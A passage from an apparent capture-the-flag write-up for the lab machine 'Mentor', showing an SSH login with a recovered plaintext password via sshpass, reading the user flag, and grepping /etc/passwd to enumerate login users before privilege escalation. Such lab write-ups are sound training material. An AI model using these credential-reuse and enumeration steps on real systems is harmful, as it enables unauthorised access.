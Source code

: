 And we're able to SSH in as `svc@mentorquotes.htb`:

```bash
$sshpass -p 123meunomeeivani ssh svc@mentorquotes.htb
Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-56-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Feb 19 10:21:25 AM UTC 2023

  System load:                      0.2568359375
  Usage of /:                       65.2% of 8.09GB
  Memory usage:                     19%
  Swap usage:                       0%
  Processes:                        490
  Users logged in:                  0
  IPv4 address for br-028c7a43f929: 172.20.0.1
  IPv4 address for br-24ddaa1f3b47: 172.19.0.1
  IPv4 address for br-3d63c18e314d: 172.21.0.1
  IPv4 address for br-7d5c72654da7: 172.22.0.1
  IPv4 address for br-a8a89c3bf6ff: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.193
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:14cc

  => There are 237 zombie processes.


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Feb 19 10:20:23 2023 from 10.10.14.33
svc@mentor:~$ cat user.txt 
aa7da69a22677e9f78e4cfcc8d213108
```

So we have the same user flag which is bind mounted into the container the web application runs in -- which is not terribly exciting.  But at least we've escaped out of lightweight container hell and can at least look at privesc to root on the host.

The active users on the machine are as follows, which we obtain by grepping `/etc/passwd` and filtering out invalid login shells:

```bash
svc@mentor:/dev/shm$ grep -vE '/usr/sbin/nologin|/bin/false' /etc/passwd
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
svc:x:1001:1001:,,,:/home/svc:/bin/bash
james:x:1000:1000:,,,:/home/james:/bin/bash
```
